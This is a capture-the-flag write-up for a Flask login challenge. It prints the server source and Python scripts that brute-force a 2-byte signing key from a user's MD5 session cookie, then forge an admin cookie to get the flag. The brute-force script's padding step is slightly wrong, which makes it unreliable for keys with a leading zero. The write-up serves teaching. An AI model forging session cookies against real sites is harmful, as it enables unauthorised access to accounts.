



# C IS FOR COOKIE THAT'S GOOD ENOUGH FOR ME.

Writeup by SammyBJames

## Description

The challenge was as follows:



The server source code was included in the `app.py` file:

```python
import hashlib
import os
from flask import Flask, request, make_response, redirect, url_for, render_template_string, flash
from werkzeug.security import generate_password_hash, check_password_hash

app = Flask(__name__)
app.secret_key = os.urandom(16).hex()

SECRET_KEY = os.urandom(2).hex()

# All the users you will ever need
USERS = {
    'admin': 'scrypt:32768:8:1$pQdU7kdcxx9zSJmI$135fdb95e9d5b96e50bc4c699c30ed38c44931d3f724b4566efbb3d3e795b33c25ea9aa9670e7bf4cc9109672ee8365271570a2dc71d772d5a4da2fa650756bb',
    'user': generate_password_hash('lowpriv'),
}

def generate_cookie(username):
    return hashlib.md5((username + SECRET_KEY).encode()).hexdigest()

def validate_cookie(cookie):
    for user in USERS.keys():
        if generate_cookie(user) == cookie:
            return True
    return False

def get_username_from_cookie(cookie):
    for user in USERS.keys():
        if generate_cookie(user) == cookie:
            return user
    return None

@app.route('/')
def index():
    login_form = '''
    <!DOCTYPE html>
    <html>
    <head>
        <title>Login Page</title>
        <link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet">
    </head>
    <body>
        <div class="container">
            <h2>Login</h2>
            
              
                <div class="alert alert-danger" role="alert">
                  {{ messages[0] }}
                </div>
              
            
            <form action="/login" method="post">
                <div class="form-group">
                    <label for="username">Username:</label>
                    <input type="text" class="form-control" id="username" name="username" required>
                </div>
                <div class="form-group">
                    <label for="password">Password:</label>
                    <input type="password" class="form-control" id="password" name="password" required>
                </div>
                <button type="submit" class="btn btn-primary">Login</button>
            </form>
        </div>
    </body>
    </html>
    '''
    return render_template_string(login_form)

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')
    
    user_password_hash = USERS.get(username)
    if user_password_hash and check_password_hash(user_password_hash, password):
        cookie_value = generate_cookie(username)
        response = make_response(redirect(url_for('profile')))
        response.set_cookie('session_cookie', cookie_value)
        return response
    else:
        flash('Invalid username or password. Please try again.')
        return redirect(url_for('index'))

@app.route('/profile')
def profile():
    cookie = request.cookies.get('session_cookie')
    if cookie and validate_cookie(cookie):
        username = get_username_from_cookie(cookie)
        profile_content = f'''
        <!DOCTYPE html>
        <html>
        <head>
            <title>Profile Page</title>
            <link href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" rel="stylesheet">
        </head>
        <body>
            <div class="container">
                <h2>User Profile Page</h2>
                <p>Welcome, {username}!</p>
        '''
        if username == 'admin':
            flag = os.getenv('FLAG', 'Flag is not set')
            profile_content += f'<div class="alert alert-success">Flag: {flag}</div>'
        
        profile_content += '''
            </div>
        </body>
        </html>
        '''
        return render_template_string(profile_content)
    else:
        flash('Unauthorized. Please login first.')
        return redirect(url_for('index'))

if __name__ == '__main__':
    app.run(port=80, host='0.0.0.0')

```

## Solution

When we visit the [Sketchy Business](https://cookies.sketchy.business) site, we're greeted with a basic login page:


 
By reviewing the `app.py` source, we see that the flag is returned when visiting the `/profile` route with an admin cookie.

From the `generate_cookie(username)` function we see that cookies are created based on the username and a global `SECRET_KEY` that is randomly generated by `os.urandom(2).hex()`.

It looks like the user password is present in the source from the line `'user': generate_password_hash('lowpriv')`, so let's try logging in with username `user` and password `lowpriv`. This sets a `session_cookie` cookie and redirects us to the `/profile` page. For now, the profile page only has a greeting message; no flag yet.


We know that the `session_cookie` cookie was hashed from our username, `user`, and the global `SECRET_KEY`, whose range is limited enough to facilitate a quick brute force attack. Let's write a simple Python script that will iterate through the 65536 possible keys and check the MD5 hash of our `SECRET_KEY` guess and `user` username against the cookie we got from the server:

```python
from hashlib import md5

username = 'user'
cookie = 'c94d3de4deaed57cdce5901dee02b7bc'

for i in range(65536):
    # Get hexadecimal representation of i in the same form as SECRET_KEY
    hex_i = hex(i)[2:].ljust(4, '0')

    # Get the hash of the username and hex_i
    md5_hash = md5((username + hex_i).encode()).hexdigest()

    # Print out the SECRET_KEY value when the hash matches the cookie
    if md5_hash == cookie:
        print(hex_i)
        break
```

This script prints out the server `SECRET_KEY`, which we can then use to generate a new cookie that will be valid for the `admin` account rather than `user`.

```python
from hashlib import md5

username = 'admin'
secret_key = '55ca'

# Print valid admin cookie
print(md5((username + secret_key).encode()).hexdigest())
```

Switch the `session_cookie` in the browser out for our new `admin` cookie, refresh the page, and the server sends back the flag with the profile page.

